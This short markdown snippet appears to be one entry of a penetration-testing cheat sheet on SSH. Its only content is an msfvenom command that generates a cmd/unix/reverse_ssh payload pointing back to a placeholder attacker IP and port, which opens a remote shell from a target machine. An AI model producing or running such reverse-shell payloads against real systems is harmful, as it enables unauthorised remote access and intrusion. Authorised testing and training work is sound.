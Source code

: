 # SSH

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_ssh lhost=<IP> lport=<PORT>
```
